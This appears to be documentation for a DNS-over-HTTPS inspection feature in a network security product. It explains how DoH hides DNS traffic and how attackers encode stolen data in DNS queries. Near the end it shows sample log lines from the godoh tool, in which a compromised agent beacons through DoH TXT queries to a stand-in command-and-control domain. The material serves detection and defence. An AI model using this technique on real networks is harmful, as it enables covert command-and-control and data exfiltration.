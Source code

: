 * **DOH_ANOMALY_CONDITION_UNCOMMON_TYPE_ACTION**: <br />Defines the action to be take on the uncommon type anomaly: dryrun, drop, blackhole, or sinkhole. (string selection)

------
### DoH Inspection Explained

You may be asking, why do I need to inspect DNS-over-HTTPS traffic? DNS has been around longer than the web, and to be honest, you don't hear a lot about it with all of the other more exciting (and terrifying) security issues flying around. As it happens, though, DNS as a protocol is extremely flexible, making it very good at things like side-channel attacks and data exfiltration. In a scenario where an attacker can control a client on an enterprise network, and a DNS server out on the Internet, it becomes rather trivial for that attacker to move (exfiltrate) arbitrary data in the form of small chunks of encoded TXT records, or even dynamic subdomain names. However, as DNS itself is not encrypted, it's typically very easy to spot these anomalies. And most enterprises will implement local DNS forwarding, so data exfiltration over raw DNS is rarely successful. However...DNS-over-HTTPS (DoH) is essentially DNS wrapped in encrypted HTTPS for added security. The original intention for this is to provide privacy, but DoH has been found to possess some interesting drawbacks:

* The most popular browsers support DoH, and by default point their queries at Internet-based services like Cloudflare and Google. Where an enterprise once had full visibility of their DNS traffic, that is now absent unless you either set up local DoH services and modify all local browser clients to use this, or just block access to Cloudflare and Google DNS altogether. It is worth noting, though, that these are only two of thousands of DoH providers available.
* DoH rides on regular HTTPS, port 443, and is otherwise indistinguishable from regular HTTPS web traffic. It's not generally possible to simply "block DoH" unless you do so, either by known DoH URLs, or by decrypting it and inspecting the payloads.

Unquestionably, DNS-over-HTTPS is an important privacy enhancement to DNS; but in doing so now obfuscates serious data leakage opportunities. DoH inspection is the explicit decryption of outbound HTTPS traffic and subsequent detection of the DoH requests and responses. This function allows an organization to regain visibility and control of DNS requests heading out to Internet DoH providers. From simple logging or blocking, to DNS blackhole and sinkhole actions, and some exfiltration anomaly detections, DoH inspection can be a vital part of the overall security of enterprise traffic flows.

------
### DoH Anomaly Detection Explained

Before getting into the weeds of DoH anomaly detection, it's important to illustrate an actual exploit. There are many different tools for doing DoH exfiltration, but they all run on essentially the same basic principles: encoding chunks of data in multiple DNS requests. A compromised system inside the corporate network will make DNS-over-HTTPS queries to some public DoH service (ex. Cloudflare), which wlll forward those requests to a C2 DNS instance somewhere on the Internet. From the organization's perspective, this is just HTTPS traffic going to Cloudflare. The compromised client "agent" will periodically query the C2 instance, and when ready the C2 instance will issue a command in its response. We can look at a simple example from the **godoh** tool. In this case, the client agent makes successful contact with the C2 instance and sends periodic queries, waiting for commands:

```bash
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
```
